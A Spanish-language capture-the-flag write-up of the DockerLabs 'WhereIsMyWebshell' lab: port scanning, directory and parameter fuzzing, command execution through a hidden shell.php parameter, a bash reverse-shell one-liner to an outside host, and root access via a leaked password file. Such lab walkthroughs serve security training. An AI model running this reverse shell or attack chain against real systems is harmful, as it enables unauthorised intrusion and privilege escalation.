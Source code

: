 ```yaml
---
title: DockerLabs - WhereIsMyWebshell
summary: "Write-up del laboratorio WhereIsMyWebshell de DockerLabs"
author: elcybercurioso
date: 2025-10-27 13:00
categories: [Post, DockerLabs]
tags: [fácil, rce, parameter bruteforce, credentials leaking]
media_subpath: "/assets/img/posts/dockerlabs_whereismywebshell"
image:
  path: main.webp
published: true
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Whereismywebshell]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 10:19 GMT
Initiating ARP Ping Scan at 10:19
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 10:19, 0.11s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:19
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 10:19, 9.58s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000046s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 9.89 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Whereismywebshell]
└─$ nmap -sCV -p80 172.17.0.2                                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 10:22 GMT
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000062s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.98 seconds
```

## análisis

Comenzamos revisando la pagina web alojada en el puerto 80 de la maquina, donde al final nos dan una pequeña pista de por donde empezar a escalar privilegios una vez obtengamos acceso:

![Desktop View](/20251027112023.webp){: width="972" height="589" .shadow}

Fuzzeamos en busca de recursos que puedan servirnos para obtener una consola:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Whereismywebshell]
└─$ gobuster dir -u "http://172.17.0.2" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x .txt,.html,.php 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
Progress: 882228 / 882228 (100.00%)
===============================================================
Finished
===============================================================
```

Encontramos un recurso llamado `shell.php`, pero parece ser que necesitamos un parámetro el cual debemos pasarle para que se ejecute correctamente el script:

![Desktop View](/20251027113227.webp){: width="972" height="589" .shadow}

Tambien descubrimos que existe un fichero llamado `warning.html`, el cual nos da a entender que debemos fuzzear por el parámetro del fichero `shell.php`:

![Desktop View](/20251027112513.webp){: width="972" height="589" .shadow}

Tras fuzzear, encontramos cual es parámetro que podemos usar:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Whereismywebshell]
└─$ wfuzz -c --hc=404,500 --hh=0 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "http://172.17.0.2/shell.php?FUZZ=whoami" -t 200 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/shell.php?FUZZ=whoami
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                           
=====================================================================

000004007:   200        2 L      2 W        21 Ch       "p********"                                                                                                                                       

Total time: 11.33796
Processed Requests: 6453
Filtered Requests: 6452
Requests/sec.: 569.1495
```

## explotación

Empleando el parámetro que hemos encontrado, podemos ejecutar comandos:

![Desktop View](/20251027114112.webp){: width="972" height="589" .shadow}

Teniendo esto ya definido, podemos obtener la consola con un payload básico de PHP:

```bash
bash -i >%26 /dev/tcp/10.10.10.10/9001 0>%261
```

Si nos hemos puesto en escucha antes de ejecutar el payload anterior, habremos obtenido una consola:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Whereismywebshell]
└─$ nc -nlvp 4444  
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 58404
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@d4d4dbf1a2c0:/var/www/html$ whoami
whoami
www-data
```

Tratamos la tty para poder operar en una consola completamente interactiva:

```bash
www-data@d4d4dbf1a2c0:~$ script -c bash /dev/null
script -c bash /dev/null
Script started, output log file is '/dev/null'.
www-data@d4d4dbf1a2c0:~$ ^Z
zsh: suspended  nc -nlvp 4444
                                                                                                                                                                                                                  
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Whereismywebshell]
└─$ stty raw -echo;fg             
[1]  + continued  nc -nlvp 4444
                               reset xterm
www-data@d4d4dbf1a2c0:~$ export TERM=xterm
www-data@d4d4dbf1a2c0:~$ export SHELL=bash
www-data@d4d4dbf1a2c0:~$ stty rows 51 columns 211
```

## escalada de privilegios

Haciendo caso a la pista que nos dieron al principio, nos dirigimos a la carpeta `/tmp`, donde encontramos el fichero `.secret.txt`:

```bash
www-data@d4d4dbf1a2c0:/tmp$ ls -la
total 12
drwxrwxrwt 1 root root 4096 Oct 27 10:19 .
drwxr-xr-x 1 root root 4096 Oct 27 10:18 ..
-rw-r--r-- 1 root root   21 Apr 12  2024 .secret.txt
```

Y dentro, encontramos la que posiblemente sea la contraseña del usuario `root`:

```bash
www-data@d4d4dbf1a2c0:/tmp$ cat .secret.txt 
cont***************
```

Probamos a conectarnos como el usuario `root`, y validamos que efectivamente se trata de su contraseña:

```bash
www-data@d4d4dbf1a2c0:/tmp$ su root
Password: 
root@d4d4dbf1a2c0:/tmp# whoami
root
```

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>